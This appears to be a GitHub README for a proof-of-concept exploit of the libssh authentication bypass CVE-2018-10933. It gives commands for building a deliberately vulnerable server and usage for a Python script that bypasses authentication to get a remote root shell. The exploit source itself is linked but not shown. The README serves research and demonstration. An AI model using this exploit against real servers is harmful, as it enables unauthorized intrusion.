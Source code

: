 # CVE-2018-10933 - libssh Server-side Auth. Bypass
This is a simple Proof of Concept (PoC) to demonstrate successful exploitation
of the authentication-bypass vulnerability as found in the server-side code of
libssh <0.7.6 and <0.8.4. See [Security Advisory (CVE-2018-10933)](https://www.libssh.org/security/advisories/CVE-2018-10933.txt)
for additional information.

## Vulnerable Server POC
In order execute commands on a vulnerable libssh server, the latter must somehow
allow the SSH request known as `shell channel request`. Most implementations
found in the wild deny this request by checking the internal session's
authentication state. If the programmer insufficiently checked the
authentication states after callbacks, the exploitation **may** be successful.

The [CVE-2018-10933-server.patch](CVE-2018-10933-server.patch) patch removes
checks for the authentication states in the `ssh_server_fork.c` example shipped
with libssh-0.7.4. See below for the patching instructions.

### Patching and building a vulnerable server
```
$ wget https://www.libssh.org/files/0.7/libssh-0.7.4.tar.xz
$ tar -xvf libssh-0.7.4.tar.xz
$ cd libssh-0.7.4/
$ cd examples/
$ patch -p0 < CVE-2018-10933-server.patch
$ cd ..
$ mkdir -p build
$ cmake ..
$ make
```

### Running the patched server
Here we're running the patched (and vulnerable) SSH server to listen on
localhost on port tcp/2222:
```
$ cd examples/
$ sudo ./ssh_server_fork -p 2222 127.0.0.1
```

## Exploit
This repository includes a simple [exploit](CVE-2018-10933-SHELL-POC.py) code
written in Python that allow you to pass commands directly to the shell of a
vulnerable libssh server (see above for a vulnerable server implementation).

#### Prerequisites
 * Python 2.7 or 3.4+
 * [Paramiko](http://www.paramiko.org/)

### Features
 * Remote shell (partially interactive)
 * TCP Port Forwarding (experimental/untested)

#### Usage
Use the '--help' command-line parameter to display all available options:
```
$ python3 CVE-2018-10933-SHELL-POC.py --help
usage: CVE-2018-10933-SHELL-POC.py [-h] [--verbose] [-p PORT]
                                   [-L PORT_FORWARDING] [-b BANNER]
                                   hostname

CVE-2018-10933 libssh Auth-Bypass Exploit PoC

positional arguments:
  hostname              server IP address or hostname

optional arguments:
  -h, --help            show this help message and exit
  --verbose             enable verbose output
  -p PORT, --port PORT  port to connect to (default: 2222)
  -L PORT_FORWARDING    enable TCP forwarding for
                        (bind_port:remote_addr:remote_port)
  -b BANNER, --banner BANNER
                        specify client banner to present to the server
```

Bypass authentication and start a shell session on the remote host:
```
$ python CVE-2018-10933-SHELL-POC.py --verbose -p 2222 127.0.0.1
[*] Type 'quit' to exit this command prompt.

$ id
uid=0(root) gid=0(root) groups=0(root),999(docker)
$ quit
```

## Disclaimer
As always, please check your local laws and regulation regarding the use of this
software. Do not use this exploit on a server without the owner's prior consent
and authorization.

## Credits
* The vulnerability has been discovered by Peter Winter-Smith of NCC Group.
* [CVE-2018-10933: libssh: authentication bypass in server code](https://seclists.org/oss-sec/2018/q4/55)
* [SoledaD208's CVE-2018-10933 very simple POC](https://github.com/SoledaD208/CVE-2018-10933)
